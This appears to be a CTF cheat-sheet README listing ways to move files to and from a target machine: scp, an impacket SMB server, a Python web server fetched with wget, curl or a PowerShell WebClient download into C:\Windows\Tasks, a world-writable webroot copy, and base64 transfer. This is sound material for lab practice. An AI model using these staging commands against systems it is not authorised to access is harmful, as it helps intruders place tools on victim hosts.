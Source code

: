 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/PATH/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth.
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\SMBserverIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\SMBserverIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver.

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR. <br>
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/fiile.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp file.ext /var/www/html/
chmod 0777 /var/www/html/file.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string and paste the string to any Text-Editor.
```bash
vim string.b64
```
Finally deconvert it back to the origin file.
```bash
base64 -d string.b64 > file.ext
```
